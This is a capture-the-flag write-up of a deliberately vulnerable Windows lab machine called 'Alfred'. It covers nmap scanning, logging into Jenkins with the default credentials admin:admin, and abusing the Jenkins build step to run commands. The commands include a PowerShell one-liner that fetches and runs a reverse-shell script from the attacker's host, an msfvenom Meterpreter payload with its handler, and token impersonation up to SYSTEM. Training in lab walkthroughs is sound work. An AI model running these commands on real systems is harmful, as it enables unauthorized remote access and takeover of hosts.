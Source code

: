 # Alfred

#### Written: 26/09/2021

#### IP Address: 10.10.113.167

<br>

Let's start off with a basic **nmap** scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the **-Pn** tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **3** ports currently open on our target machine:

* Port **80**: HTTP
* Port **3389**
* Port **8080**: HTTP

<br>

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

After looking through the website and running a **Gobuster** scan, I was unable to find anything of interest. Let's move on to the web server on port 8080.

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! We found a login page to a **Jenkins server**. 

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

<br>

Let's go ahead and try using a common default username and password, **admin:admin**.

<img style="float: left;" src="screenshots/screenshot4.png">

Luckily for us, those credentials actually worked. We are able to log into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named **'project'**, then **'Configure'** on the left-hand side, then move down to the **'Build'** section.

<img style="float: left;" src="screenshots/screenshot5.png">

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be ```whoami```.

<img style="float: left;" src="screenshots/screenshot6.png">

Now, we simply click on **'Build Now'** on the project page, then click on the corresponding build in the **'Build History'** section, then click on the **'Console Output'** to see the results of our command.

<img style="float: left;" src="screenshots/screenshot7.png">

It works! This proves that we can run arbitrary commands on the server. Thus, we can use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a **Windows** machine, we will be using a Powershell reverse shell script that is part of the **Nishang** framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

<br>

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can download the script onto our target.

Next, we input the following command into the **'Build'** section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using ```Invoke-PowerShellTcp```.

<img style="float: left;" src="screenshots/screenshot8.png">

Finally, we make sure to have a **netcat** listener up and ready to catch the connection.

<br>

With everything set up, let's go ahead and build the project!

<img style="float: left;" src="screenshots/screenshot9.png">

And we're in :smile:

<img style="float: left;" src="screenshots/screenshot10.png">

**We can find the user flag from user.txt located in the Desktop of the user Bruce.**

---

To make the privilege escalation process easier, let's switch to a **Meterpreter shell** using **Metasploit**.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using **Msfvenom**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

<img style="float: left;" src="screenshots/screenshot11.png">

<br>

With our payload created, we can upload it onto the target machine using the same command method as before.

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

<img style="float: left;" src="screenshots/screenshot12.png">

For good measure, I'll also add in a ```dir``` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

<br> 

<img style="float: left;" src="screenshots/screenshot13.png">

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine.

Now, we just have to execute it using:

```
.\shell.exe
```

<img style="float: left;" src="screenshots/screenshot14.png">

<br>

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the **/multi/handler** module.

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With the TCP listener up and running in Metasploit, we can go ahead and build the project.

<img style="float: left;" src="screenshots/screenshot15.png">

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a Meterpreter shell, we can use **token impersonation** to gain system access.

*More information about Tokens can be found in the room description.*

<br>

Let's first spawn a shell that we can use. This can be done using the ```shell``` command in Meterpreter.

Next, we use the ```whoami /priv``` command to view all privileges on this account. The results are as follows:

<img style="float: left;" src="screenshots/screenshot16.png">

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit this vulnerability by using the **incognito** module in Metasploit. To load this, we first exit out of the shell. Then we use the command ```load incognito```. 

<img style="float: left;" src="screenshots/screenshot17.png">

<img style="float: left;" src="screenshots/screenshot18.png">

Loading this module gives us more commands that we can run on our target machine. We will be using the ```list_tokens``` command.

```
list_tokens -g
```

*The -g tag lists tokens by unique groupname*

**Results:**

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the ```impersonate_token``` command to impersonate the root user.

```
impersonate_token "BUILTIN\Administrators"
```

**Results:**

<img style="float: left;" src="screenshots/screenshot20.png">

With that, we have successfully impersonated the **root user (NT AUTHORITY\SYSTEM)**.

<br>

However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct **NT AUTHORITY\SYSTEM** permissions. 

According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the **PID** of the process. We can use the ```ps``` command.

<img style="float: left;" src="screenshots/screenshot21.png">

The PID of services.exe is **668**. 

<br>

Now we can migrate to the process using the following command:

```
migrate 668
```

<img style="float: left;" src="screenshots/screenshot22.png">

After the migration is complete, we can spawn a higher-privileged shell using the ```shell``` command again. We can then read the **root.txt** file located in **C:\Windows\System32\config** using the ```TYPE``` command.

<img style="float: left;" src="screenshots/screenshot23.png">

**With that, we can obtain the root flag and complete the room.**

